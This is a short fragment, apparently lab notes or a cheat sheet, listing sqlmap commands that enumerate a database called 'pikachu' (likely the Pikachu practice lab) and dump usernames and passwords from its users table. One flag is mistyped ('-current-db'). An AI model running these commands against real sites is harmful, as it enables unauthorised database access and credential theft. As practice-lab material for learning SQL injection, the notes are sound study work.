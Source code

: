 sqlmap -u "url" --cookie=""
sqlmap -u "url" -current-db
sqlmap -u "url" -D pikachu --tables
sqlmap -u "url" -D pikachu -T users --columns
sqlmap -u "url" -D pikachu -T users -C username,password --dump

sqlmap -r post.txt